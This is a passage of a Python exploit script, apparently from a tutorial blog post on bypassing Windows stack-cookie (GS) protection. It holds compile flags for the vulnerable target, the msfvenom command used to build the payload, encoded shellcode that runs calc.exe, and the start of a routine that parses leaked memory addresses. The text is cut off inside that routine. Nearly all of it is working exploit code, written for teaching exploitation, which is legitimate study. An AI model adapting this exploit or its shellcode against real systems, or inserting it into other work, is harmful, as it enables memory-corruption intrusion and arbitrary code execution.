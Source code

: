 ```python
"""
  gs_exploit.py
  Windows Modern Exploitation Blog Post
  Part 1: Stack Cookie (GS) Bypass
  Written by Clarissa https://clarissapodell.com

  The target program should be compiled with the command:
  C:\> cl /Zi vuln.c /link /NXCOMPAT:NO
"""

from subprocess import *
from struct import pack
import time
import sys


def print_banner():
  ''' Prints a banner message at the top of the terminal '''

  print """
    -------------------------------------------------------------
    # Windows Exploitation Part 1: Stack Cookie (GS) Bypass     #
    # by clarissapodell on 7/12/2018                            #
    # tested on Windows 10 x64, compiled as x86 32-bit process  #
    -------------------------------------------------------------
  """


def gen_shellcode():
  ''' Shellcode to execute an arbitrary command in Windows (CALC.exe)
      $ msfvenom -p windows/exec CMD=calc.exe -f python -e x86/shikata_ga_nai \
                 -b '\x00\x0a\x0d' -v shellcode
  '''

  shellcode =  ""
  shellcode += "\xda\xd8\xbd\x21\x75\x35\x98\xd9\x74\x24\xf4\x5a"
  shellcode += "\x31\xc9\xb1\x31\x31\x6a\x18\x03\x6a\x18\x83\xea"
  shellcode += "\xdd\x97\xc0\x64\xf5\xda\x2b\x95\x05\xbb\xa2\x70"
  shellcode += "\x34\xfb\xd1\xf1\x66\xcb\x92\x54\x8a\xa0\xf7\x4c"
  shellcode += "\x19\xc4\xdf\x63\xaa\x63\x06\x4d\x2b\xdf\x7a\xcc"
  shellcode += "\xaf\x22\xaf\x2e\x8e\xec\xa2\x2f\xd7\x11\x4e\x7d"
  shellcode += "\x80\x5e\xfd\x92\xa5\x2b\x3e\x18\xf5\xba\x46\xfd"
  shellcode += "\x4d\xbc\x67\x50\xc6\xe7\xa7\x52\x0b\x9c\xe1\x4c"
  shellcode += "\x48\x99\xb8\xe7\xba\x55\x3b\x2e\xf3\x96\x90\x0f"
  shellcode += "\x3c\x65\xe8\x48\xfa\x96\x9f\xa0\xf9\x2b\x98\x76"
  shellcode += "\x80\xf7\x2d\x6d\x22\x73\x95\x49\xd3\x50\x40\x19"
  shellcode += "\xdf\x1d\x06\x45\xc3\xa0\xcb\xfd\xff\x29\xea\xd1"
  shellcode += "\x76\x69\xc9\xf5\xd3\x29\x70\xaf\xb9\x9c\x8d\xaf"
  shellcode += "\x62\x40\x28\xbb\x8e\x95\x41\xe6\xc4\x68\xd7\x9c"
  shellcode += "\xaa\x6b\xe7\x9e\x9a\x03\xd6\x15\x75\x53\xe7\xff"
  shellcode += "\x32\xab\xad\xa2\x12\x24\x68\x37\x27\x29\x8b\xed"
  shellcode += "\x6b\x54\x08\x04\x13\xa3\x10\x6d\x16\xef\x96\x9d"
  shellcode += "\x6a\x60\x73\xa2\xd9\x81\x56\xc1\xbc\x11\x3a\x28"
  shellcode += "\x5b\x92\xd9\x34"
  return shellcode


def get_memleak_values(output):
  ''' Takes memleak output as an argument and returns the addresses needed
      to construct the exploit.
  '''

  # Split input on each space to create a list of addresses that can be accessed by index
```